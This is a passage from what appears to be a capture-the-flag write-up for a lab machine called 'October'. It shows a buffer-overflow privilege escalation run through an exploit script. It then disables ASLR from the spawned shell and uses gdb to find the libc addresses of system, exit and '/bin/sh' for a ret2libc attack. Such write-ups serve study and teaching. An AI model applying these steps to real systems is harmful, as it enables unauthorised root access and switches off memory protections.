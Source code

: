 ```bash
python3 bof_exploit.py
# :)
```

<br/>
<img src="{{ site.img_path }}/october_writeup/October_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If **ASLR** had been disabled, the attack would have been **easier**. I can check this by disabling this protection feature from the **shell** that I spawned with my attack. Once **ASLR** is disabled, the address of **libc** becomes static, so with `gdb` I can get the addresses, and **not the offsets**, of **system**, **exit** and **/bin/sh**. Now I can redo my exploit.

```bash
cat /proc/sys/kernel/randomize_va_space
echo "0" > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
# :)

for i in $(seq 1 50); do ldd /usr/local/bin/ovrflw | grep libc | grep -oP '\(.*?\)' | tr -d '()'; done

gdb /usr/local/bin/ovrflw
  info functions
  b *main
  r AAAAAA
  p system
# $1 = {<text variable, no debug info>} 0xb7e62310 <__libc_system>
  p exit
# $2 = {<text variable, no debug info>} 0xb7e55260 <__GI_exit>
  find "/bin/sh"
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
# libc : 0xb7f84bac ("/bin/sh")
```

<br />
<img src="{{ site.img_path }}/october_writeup/October_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/october_writeup/October_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
